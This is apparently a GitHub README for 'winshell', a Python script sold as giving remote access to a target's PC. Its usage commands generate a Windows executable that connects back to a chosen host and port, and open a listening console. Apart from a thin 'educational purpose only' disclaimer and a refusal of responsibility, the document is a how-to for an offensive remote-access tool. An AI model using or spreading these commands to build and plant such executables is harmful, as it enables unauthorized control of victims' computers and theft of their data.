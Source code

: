 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 



Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l [127.0.0.1] -p [9999] --console 1
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   



Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]   
----------------------------------------------------------------------------------------------------   


